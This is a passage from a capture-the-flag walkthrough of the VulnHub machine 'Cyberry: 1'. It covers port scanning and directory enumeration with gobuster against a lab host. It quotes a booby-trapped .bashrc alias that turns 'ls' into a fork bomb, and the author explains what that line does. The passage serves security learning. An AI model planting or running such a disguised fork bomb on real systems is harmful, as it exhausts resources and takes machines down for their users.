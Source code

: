 `nmap` finds three open ports—`21/tcp`, `22/tcp`, and `80/tcp`. I don't know what `666/tcp` is for—the gateway to Hell? Good thing it's closed then. Among the three open ports, `80/tcp`, commonly known as the web service, is the easiest to explore because the protocol (`http`) is well-documented and is in plain text. Let's start with that.

### Directory/File Enumeration

Let's identify the common directories and files with `gobuster` and `common.txt` from [SecLists](https://github.com/danielmiessler/SecLists).

```
Gobuster v1.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://192.168.198.128/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 307,200,204,301,302
[+] Expanded : true
=====================================================
http://192.168.198.128/.bashrc (Status: 200)
http://192.168.198.128/css (Status: 301)
http://192.168.198.128/images (Status: 301)
http://192.168.198.128/index.html (Status: 200)
http://192.168.198.128/javascript (Status: 301)
http://192.168.198.128/phpmyadmin (Status: 301)
=====================================================
```

Everything looks normal execpt for `.bashrc`.

### Fork Bomb :bomb:

 Something sinister is lurking in `.bashrc`.

`alias ls='echo "Cyberry Intrusion Detection activated\nsystem failsafe mode will begin in:"; sleep 1; echo "5"; sleep 1; echo "4"; sleep 1; echo "3"; sleep 1; echo "2"; sleep 1; echo "1"; sleep 1; :(){ :|: & };:`

A fork bomb! A fork bomb replicates itself until it depletes system resources, causing your system to "hang". In this case, using `ls` will set off the fork bomb.

### HTML Comments

Another popular place to look for clues is in the HTML source code. Here, I find a couple of HTML comments that look like `base64`.

![comments.png](/assets/images/posts/cyberry-1-walkthrough/cyberry-1.png)

Let's decode them.


[1]: https://www.vulnhub.com/entry/cyberry-1,217/
[2]: https://twitter.com/@cyberrysec
[3]: https://www.vulnhub.com
[4]: https://en.wikipedia.org/wiki/Brainfuck
[5]: https://copy.sh/brainfuck/